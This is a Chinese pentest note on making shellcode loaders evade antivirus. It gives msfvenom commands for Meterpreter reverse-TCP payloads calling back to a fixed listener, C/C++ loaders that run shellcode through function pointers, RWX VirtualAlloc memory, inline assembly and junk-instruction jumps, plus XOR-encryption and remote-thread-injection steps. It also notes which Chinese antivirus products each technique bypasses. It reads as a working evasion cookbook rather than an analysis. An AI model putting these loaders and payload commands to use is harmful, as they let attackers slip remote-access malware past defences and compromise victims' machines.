    #### c/c++源码免杀
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f c -o 1.c
	-i编码20次
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
 #### 指针执行
	unsigned char buf[] =
	"shellcode";
	#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
	main()
	{
		( (void(*)(void))&buf)();
	}
	使用vc6.0组建编译后在靶机执行
![image](/assets/Pentest_Note/master/img/50.png)

	当前过不了火绒，360动态静态可过
 #### 申请动态内存
	#include <Windows.h>
	#include <stdio.h>
	#include <string.h>
	#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
	unsigned char buf[] =
	"shellcode";
	main()
	{
		char *Memory;
		Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		memcpy(Memory, buf, sizeof(buf));
		((void(*)())Memory)();
	}
 #### 嵌入汇编
	#include <windows.h>
	#include <stdio.h>
	#pragma comment(linker, "/section:.data,RWE")
	unsigned char shellcode[] ="";
	void main()
	{
		__asm
		{
			mov eax, offset shellcode
			jmp eax
		}
	}
 #### 强制类型转换
	#include <windows.h>
	#include <stdio.h>
	unsigned char buf[] ="";
	void main()
	{
	 ((void(WINAPI*)(void))&buf)();
	}
 #### 汇编花指令
	#include <windows.h>
	#include <stdio.h>
	#pragma comment(linker, "/section:.data,RWE")
	unsigned char shellcode[] ="";
	void main()
	{
			__asm
		{
			mov eax, offset shellcode
			_emit 0xFF  
			_emit 0xE0
		}
	}
 #### XOR加密
	https://github.com/Arno0x/ShellcodeWrapper安装
	生成raw格式木马
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f raw -o shell.raw
![image](/assets/Pentest_Note/master/img/51.png)

	加密
	> python shellcode_encoder.py -cpp -cs -py shell.raw thisiskey xor
	生成的py文件使用py2exe编译执行
	生成的cs文件使用csc.exe编译执行
	生成的cpp文件使用vc6.0编译，去掉预编译头编译执行
![image](/assets/Pentest_Note/master/img/52.png)

 #### 远程线程注入
	目前过火绒，不过360，可组合一下
	Vs新建c++控制台程序
	右键属性-》将MFC的使用选为在静态库中使用MFC
	生成c格式shellcode粘贴进remote inject.cpp
![image](/assets/Pentest_Note/master/img/53.png)

	生成项目
	能成功上线，并开启calc进程
![image](/assets/Pentest_Note/master/img/54.png)
![image](/assets/Pentest_Note/master/img/55.png)